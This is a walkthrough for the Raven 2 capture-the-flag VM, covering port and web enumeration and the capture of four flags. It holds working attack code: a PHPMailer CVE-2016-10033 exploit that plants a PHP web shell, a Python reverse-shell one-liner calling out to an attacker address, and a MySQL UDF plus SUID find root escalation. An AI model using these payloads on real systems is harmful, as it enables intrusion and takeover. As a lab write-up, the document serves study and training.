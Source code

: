 # Raven 2 - https://www.vulnhub.com/entry/raven-2,269/ 

First of all, add raven.local to your *_/etc/hosts_*.

After that, let's run nmap.

```nmap -T4 -A -sC -sV -p- -v raven.local```
```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          37560/tcp  status
|_  100024  1          38449/udp  status
37560/tcp open  status  1 (RPC #100024)
```
Let's just open a browser and see what we are working with.
After we went through a webpage manually, let's just enumerate a little bit more.

```gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://raven.local```
This should be enough to gives us a start point.

```
/img (Status: 301)
/css (Status: 301)
/wordpress (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
/exp (Status: 200)
/server-status (Status: 403)
```
Let's check findinds manually to see if there is something interesting.

```http://raven.local/vendor/PATH``` contains our first flag.

Flag1: *flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}*

Also, it contains an important piece of information: **phpmailer**. 

Let us continue. From the findings we can see that there is a *wordpress* blog. 
And of course, we will enumerate it too !
```wpscan --url http://raven.local/wordpress```

After it is done, we got an *_directory listing enabled_* 
```http://raven.local/wordpress/wp-content/uploads/``` it led us the third flag in a picture format.

Flag3: *_flag3{a0f568aa9de277887f37730d71520d9b}_*

Strange that we didn't find flag2. I remember that there is a phpmailer exploit that lead to rce. 
*https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html*

After reviewing the exploit, I wrote a small script that should make the whole process easier. 

First of all let us upload a shell. For that you can use BurpSuite or just use python with requests lib just as i did. 

``` import requests

    host = "http://raven.local/contact.php"
    payload='"attacker\\" -oQ/tmp/ -Xhack.php  some"@email.com'
    pay={'action':'submit','name':'hacker','email':payload,'message':'<?php system($_GET["cmd"]); ?>'}
    requests.post(host, data=pay)
    print("File uploaded, go to http://raven.local/hack.php?cmd=ls and have fun !")
```
This part uploaded shell and let us gain reverse shell now:

  ```
    host="http://raven.local/hack.php?cmd="
    com = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.106\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
    req=requests.post(host+com)
    print("Done !")
   ```
and we are in ! (You can find complete code https://github.com/m-veljkovic/CTF-helpers/blob/master/Raven%202/exploit'n'shell.py but i encourage you to understand what is going on before just running it.)

Now let's enumerate some more. 
We found second flag in *_/var/www/_*
Flag2: *_flag2{6a8ed560f0b5358ecf844108048eb337}_*

Now let's go for flag4 !

In wordpress directory there is always a *_wp-config.php_* file which contains mysql password, after checking it, we got the password
**R@v3nSecurity**. We are gonna save it for later.

I was stuck here for a while, and I read Raven 1 writeup, in which we would exploit UDF dynamic library. We can try that.

Let's download exploit from https://www.exploit-db.com/exploits/1518/.
I renamed it to udf. And we will compile it at our machine: ```gcc -g -shared -Wl,-soname,udf.so -o udf.so udf.c -lc```

Now start ```python -m SimpleHTTPServer 80``` and download the file to the /var/www.
Login to mysql ```mysql -u root --password=R@v3nSecurity``` 
We are going to use same steps as in Raven 1.
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/var/www/udf.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/udf.so';
create function do_system returns integer soname 'udf.so';
select do_system('chmod u+s /usr/bin/find');
``` 
Exit from mysql and continue typing 
```
touch hacker
find hacker –exec "whoami" \;
find hacker –exec "/bin/sh" \;
cd /root
ls
cat flag4.txt
```
Final flag4 is: *_flag4{df2bc5e951d91581467bb9a2a8ff4425}_*

That would be all. This machine was so cool, kudos to creator **@mccannwj / wjmccann.github.io**
